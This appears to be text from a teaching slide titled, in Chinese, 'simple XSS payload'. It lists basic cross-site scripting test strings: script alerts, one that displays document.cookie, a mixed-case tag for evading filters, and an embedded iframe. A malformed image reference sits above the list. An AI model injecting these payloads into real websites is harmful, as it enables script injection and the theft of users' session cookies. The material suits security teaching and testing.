

# 簡單的XSS payload
<script> alert("XSS!");</script>
<scrIPT>
<script> alert(document.cookie)</script>
<iframe width=333 height=333 src=tw.yahoo.com> </iframe>
25